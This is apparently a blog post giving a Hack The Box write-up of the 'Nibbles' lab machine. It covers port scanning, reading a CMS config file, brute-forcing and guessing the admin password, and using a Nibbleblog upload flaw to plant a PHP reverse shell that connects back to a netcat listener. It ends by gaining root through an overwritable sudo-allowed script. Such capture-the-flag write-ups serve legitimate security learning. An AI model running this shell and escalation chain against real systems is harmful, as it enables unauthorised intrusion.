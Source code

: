 ```yaml
---
title: 'Nibbles Writeup'
date: 2018-03-08
thumbnailImagePosition: left
thumbnailImage: /img/posts/2018/03/nibbles-writeup/nibble_banner.jpg
coverImage: /img/posts/2018/03/nibbles-writeup/nibble_banner.jpg
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Hackthebox
- CTF
- Writeup
tags:
- hackthebox
- htb
- pentest
- ctf
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "My writeup of the" Hack the box Nibbles box... Nibble nibble!"
---
```

Connecting to Hack the Box[^1] using the supplied VPN, my Nibbles box have the IP: 10.10.10.75
As per usual, lets start with Recon and NMAP the target IP
```
root@kali:~/Nibbles$ nmap -p- --version-all -sV -sS 10.10.10.75
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-09 07:44 CET
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
```
Seeing port 80 open, lets browse to that and look at the source code, as the base directory doesn't show anything revealing.
```
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
Seeing that we have a new directory to explore, lets go to /nibbleblog/.
![nibblesblog-root](/img/posts/2018/03/nibbles-writeup/nibblesblog-root.png)
So that points to the Content Management System (CMS) called Nibbleblog, which is opensource and free to download the sourcecode, which means we can take a look at it.
A bit of googling points me to the github https://github.com/dignajar/nibbleblog
Where the basefile "admin.php" looks interesting, and sure enough it does exist on our target.
![nibblesblog-admin](/img/posts/2018/03/nibbles-writeup/nibblesblog-admin.png)
The next interesting file from the github looks to be "install.php", on our target blog it is obviously already installed, nontheless it might be worth checking out!
![nibblesblog-install](/img/posts/2018/03/nibbles-writeup/nibblesblog-install.png)
Lets follow the update link to the update page!
![nibblesblog-update](/img/posts/2018/03/nibbles-writeup/nibblesblog-update.png)
So this further reveals two files where one is quite interesting, as config files usually contains usernames even possibly passwords, and other essential config parameters!
So lets browse to /nibbleblog/content/private/config.xml
```
<config>
[...snip...]
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
[...snip...]
</config>
```
So this time the config file does not reveal any passwords, although we're not emptyhanded as we do get a valid username "admin".
After some further enumeration i could not find a hint towards a password or any other vulnerability to use. So i resulted in trying THC-Hydra[^2] and a small passwordlist in an attempt to run a dictionary against the login page!
Which only got me on their blacklist and blocked me a couple minutes from making further login attempts.
![nibblesblog-login-blacklist](/img/posts/2018/03/nibbles-writeup/nibblesblog-login-blacklist.png)
Then after some further checking of the source code, i recalled it supposed to be a fairly simple box, so back to some default passwords.
Bingo, user: Admin, Password: nibbles so a weak password indeed.
Doing a grep for the password "nibbles" in the standard "rockyou.txt" that is included in Kali linux.
```
root@kali:~/Wordlists$ grep 'nibbles' rockyou.txt
nibbles
nibbles1
[...snip...]
```
We can see that doing the hydra would indeed work... eventually, you'd just have to do some timeouts between attempts.
Either way, we have the password and is logged in to the CMS admin panel!
![nibblesblog-logged-in](/img/posts/2018/03/nibbles-writeup/nibblesblog-logged-in.png)
Next up would be to try and get a shell on the system somehow, so back to google!
It eventually pointed me to another security researchers blog [CureSec Nibbleblog 4.0.3 RCE](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)[^3]
The PoC Exploit work in 4 steps
```
1. Obtain Admin credentials
2. Activate My image plugin
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/nibbleblog/content/private/plugins/my_image/image.php
```
So since we are already logged in, we can go to step two and activate the "My Image Plugin" under Plugins in the CMS Admin Panel.
Then lets create and upload a php reverse shell.
My favourite php-reverse-shell is included in kali, that pentestmonkey created.
Copy that to the working directory by issuing.
```
root@kali:~/Nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
```
Then edit the $ip and $port variable in the php script, in this example i use port 4000. Once thats done, we can upload it to the CMS and start a netcat listener on our chosen port with (nc -lvvp 4000)
In this example i used curl to trigger the RCE since the "image.php" is in a public folder.
```
root@kali:~/Nibbles$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```
That should kick of a basic shell created by the PHP script to the Netcat listener.
Although the shell we recieve is a limited one, so lets enumerate which perl and python libraries are present to escape the limited shell.
```
root@kali:~/Nibbles$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.2] from nibbles.htb [10.10.10.75] 49562
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:55:01 up 4 days,  6:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which perl
/usr/bin/perl
$ which python3
/usr/bin/python3
$ python3 -c "import pty; pty.spawn('/bin/bash');"  
nibbler@Nibbles:/$ ls /home/nibbler
ls /home/nibbler
personal  personal.zip  user.txt
nibbler@Nibbles:/$
```
Since i am a Python guy, that's a quite an easy choice.
Now that we have the "user.txt" flag, lets get root!
One easy command to run is "sudo -l", which will report if the current user is in the /etc/sudoers file, as well list what commands the current user is allowed to run.
```
nibbler@Nibbles:/$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/$
```
Easy enough, at a quick glance in enumeration we can see that user nibbler is allowed to run "/home/nibbler/personal/stuff/monitor.sh" as root without a password!
At this point getting the root flag should be fairly simple!
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/cat /root/root.txt" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745[...snip...]8ef88c
nibbler@Nibbles:/home/nibbler/personal/stuff$
```
Done.

[^1]: [ www.hackthebox.eu]( www.hackthebox.eu)
[^2]: https://tools.kali.org/password-attacks/hydra
[^3]: https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html
